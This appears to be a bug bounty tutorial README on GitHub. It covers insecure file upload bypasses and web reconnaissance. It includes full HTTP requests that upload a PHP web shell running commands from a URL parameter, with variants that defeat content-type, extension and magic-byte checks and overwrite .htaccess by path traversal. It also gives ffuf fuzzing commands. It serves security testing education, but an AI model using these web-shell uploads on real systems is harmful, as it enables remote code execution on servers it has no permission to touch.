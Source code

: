# Bug Bounty Hunting Mindset v1.0

<h2 align="center"><strong>Bug Bounty Hunting Mindset v1.0</strong></h2>

<p align="center">A focused and practical resource for bug bounty hunters, penetration testers, and red teamers — covering real-world techniques, bypasses, and offensive security insights.</p>

***

<h3 align="center"><strong>Vulnerabilities &#x26; Bypasses:</strong></h3>

> **Info:**
>
> <p align="center">A collection of known vulnerability types with practical methods to bypass filters, protections, and common security mechanisms.</p>

#### <sup>**V01.**</sup>**&#x20;Insecure file uploads: A complete guide to finding advanced file upload vulnerabilities:**

1. **Identifying file upload vulnerabilities**
   * Retrievable
   * Content-Type
2. **Exploiting simple file upload vulnerabilities**
   *   No restrictions

       ```http
       POST /Api/FileUpload.aspx HTTP/2
       Host: console.example.com
       User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
       Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
       Accept: */*

       ------WebKitFormBoundary3RwPFJztxaJvrqAq
       Content-Disposition: form-data; name="file"; filename="shell.php"
       Content-Type: application/x-php

       <?php echo system($_GET['e']); ?>
       ------WebKitFormBoundary3RwPFJztxaJvrqAq--
       ```
   * Bypassing client-side restrictions
     *   HTML "accept" attribute

         ```html
         <input type="file" accept=".jpg, .jpeg, .png, .gif" />
         ```
     * using proxy interceptors
   *   Bypassing a file extension blacklist

       <figure><img src=".gitbook/assets/file-upload-vuln1.png" alt="Bypass file extension exclusion lists"><figcaption><p><strong>Bypass file extension exclusion lists</strong></p></figcaption></figure>
   *   Bypassing a file extension whitelist

       <figure><img src=".gitbook/assets/file-upload-vuln2.png" alt="Bypass file extension inclusion lists"><figcaption><p><strong>Bypass file extension inclusion lists</strong></p></figcaption></figure>

If the file upload implementation determines your file type by the content type, you can also attempt to upload a file with a whitelisted file extension but with your malicious content type:

```http
POST /Api/FileUpload.aspx HTTP/2
Host: console.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
Accept: */*

------WebKitFormBoundary3RwPFJztxaJvrqAq
Content-Disposition: form-data; name="file"; filename="shell.png"
Content-Type: application/x-php

<?php echo system($_GET['e']); ?>
------WebKitFormBoundary3RwPFJztxaJvrqAq--
```

<p align="center">Take note of the <mark style="color:red;">filename</mark> and <mark style="color:red;">Content-Type</mark> in the example request above.</p>

3.  **Exploiting advanced file upload vulnerabilities**

    * Bypassing content type restrictions

    ```http
    POST /Api/FileUpload.aspx HTTP/2
    Host: console.example.com
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
    Accept: */*

    ------WebKitFormBoundary3RwPFJztxaJvrqAq
    Content-Disposition: form-data; name="file"; filename="shell.php"
    Content-Type: image/png

    <?php echo system($_GET['e']); ?>
    ------WebKitFormBoundary3RwPFJztxaJvrqAq--
    ```

    *   Magic bytes

        * These are the magic bytes for a normal image (PNG) in HEX:

        ```sh
        89 50 4E 47 0D 0A 1A 0A
        ```

        ```http
        POST /Api/FileUpload.aspx HTTP/2
        Host: console.example.com
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
        Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
        Accept: */*

        ------WebKitFormBoundary3RwPFJztxaJvrqAq
        Content-Disposition: form-data; name="file"; filename="shell.php"
        Content-Type: application/x-php

        ‰PNG␍␊␚␊
        <?php echo system($_GET['e']); ?>
        ------WebKitFormBoundary3RwPFJztxaJvrqAq--
        ```

        <p align="center"><a href="https://en.wikipedia.org/wiki/List_of_file_signatures">List of file signatures - Wikipedia</a></p>
    *   Overwriting server configuration files

        * .htaccess

        ```http
        POST /Api/FileUpload.aspx HTTP/2
        Host: console.example.com
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
        Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
        Accept: */*

        ------WebKitFormBoundary3RwPFJztxaJvrqAq
        Content-Disposition: form-data; name="file"; filename="../../../.htaccess"
        Content-Type: text/plain

        # Your server configuraton rules
        ------WebKitFormBoundary3RwPFJztxaJvrqAq--
        ```

***

#### <sup>**V02.**</sup>

***

<h3 align="center"><strong>Hunting Techniques &#x26; Ideas:</strong></h3>

> **Info:**
>
> <p align="center">General strategies, techniques, and creative approaches to help you discover more bugs and uncover hidden attack surfaces.</p>

#### <sup>**T01.**</sup>**&#x20;7 Overlooked recon techniques to find more vulnerabilities:**

1. **Targeted wordlists**
   1. [CeWL](https://github.com/digininja/CeWL)
2. **Virtual host (VHost) enumeration**

```sh
ffuf -u https://example.com -H "Host: FUZZ.example.com" -w /path/to/wordlist
```

3. **Forced browsing using different HTTP methods**

```sh
ffuf -u https://api.example.com/PATH -X METHOD -w /path/to/wordlist:PATH -w /path/to/http_methods:METHOD
```

4. **JavaScript file monitoring**
   1. [JSMON](https://github.com/robre/jsmon)
5. **Crawling with different user-agent headers**
   1. <kbd>Proxy → Proxy settings → Tools → Proxy → HTTP match and replace rules</kbd>
6. **Finding related assets with favicon hashes**
   1. [Shodan](https://www.shodan.io/)
   2. [Censys](https://search.censys.io/)
7. **Looking up legacy versions of JavaScript files**
   1. [internet archives](https://archive.org/)

***

#### <sup>**T02.**</sup>

***

<h3 align="center"><strong>Closing Note:</strong></h3>

It is my pleasure and honor to have your support and follow-up. I look forward to exchanging knowledge and collaborating with you in the field of cybersecurity.

Stay connected:

* **X Platform:** [iProgrammer16](https://x.com/iProgrammer16)
* **X Platform:** [1ZeroDay](https://x.com/1ZeroDay)
* **LinkedIn:** [Linkedin](https://www.linkedin.com/in/saleh16abdullah/)
* **Github:** [iProgrammer16](https://github.com/iProgrammer16)
* **Telegram Channel:** [1ZeroDay](https://t.me/+ylDx8zGNLEwzMWU8)
* **For collaboration on HackerOne:** [HackerOne Profile - iProgrammer16](https://hackerone.com/iprogrammer16)
* **All social links in one place:** [Linktr](https://linktr.ee/1ZeroDay)
